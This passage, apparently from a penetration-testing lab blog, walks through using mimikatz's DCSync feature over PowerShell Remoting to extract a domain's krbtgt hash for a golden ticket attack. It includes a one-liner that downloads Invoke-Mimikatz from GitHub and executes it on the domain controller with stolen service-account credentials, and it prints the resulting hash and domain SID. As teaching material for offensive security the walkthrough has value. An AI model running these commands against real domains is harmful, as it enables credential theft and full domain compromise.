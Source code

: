 Getting the NT Hash of the `krbtgt` account though is something I want to show using a recent feature addition to mimikatz, [DCSync](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/). The gist of it is that its possible to extract hashes from a Domain Controller (using a domain admin type account), without actually running any code on the Domain Controller itself! This is of course not the only way to get the required hash. Many of the older techniques work just fine. But, from a DCSync perspective, it essentially means hash extraction from any PC on the domain (authenticated as a admin), by ‘faking’ being a Domain Controller and triggering some replication-fu! In my case, I struggled a little to get this replication done from a client PC in the lab via the metasploit interactive PowerShell session, but could do it successfully from a client PC via the console. So, its definitely possible!

In this case, to use the DCSync feature of mimikatz, I am going to use PowerShell Remoting to run commands. Unfortunately, due to the way `Enter-PSSession` sets up the shell, I can't seem to get an interactive shell as another user going without using another exploit && payload combination. So, we are just going to use `Invoke-Command` with our commands.

``` html
PS C:\> $creds

UserName                       Password
--------                       --------
svcSQLServ System.Security.SecureString


PS C:\> Invoke-Command -ScriptBlock {Write-Output $env:username} -Credential $creds -ComputerName dc1
svcSQLServ
```

Great so that works. To continue, we are going to have to run a few commands:

- `Invoke-Expression` to get mimikatz
- Run `Invoke-Mimikatz` with `lsadump::dcsync /user:krbtgt` and its required parameters
- Dance!

I constructed my command that needed to be run on my PowerShell session and ended up with this:

```
Invoke-Command -ScriptBlock {Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'} -Credential $creds -ComputerName dc1
```

Let me try explain what is going on here. I am saying, `Invoke-Command` on the computer `dc1` as `svcSQLServ` (stored in the `$creds` variable) using PowerShell Remoting. The command to run is defined in the `ScriptBlock {}` which is i) download mimikatz ii) run `Invoke-Mimikatz` with the `lsadump::dcsync /user:krbtgt` command.

{{< figure src="/images/kerberos_golden_ticket_krbtgt.png" >}}

We have the hash for `krbtgt`! `95a11f7d93fa3a5a61073662e6bd8468` : D That means I have everything I need to create a golden ticket, with all the access in the world! To summarize, my prerequisites are satisfied with the following values:

- The Domains FQDN. `foo.local`
- The Domains SID. `S-1-5-21-2222611480-1876485831-1594900117`
- The `krbtgt` accounts NT hash. `95a11f7d93fa3a5a61073662e6bd8468`
- A username (fake or real, does not matter. Not fake if you need opsec ofc!). `darthvader`
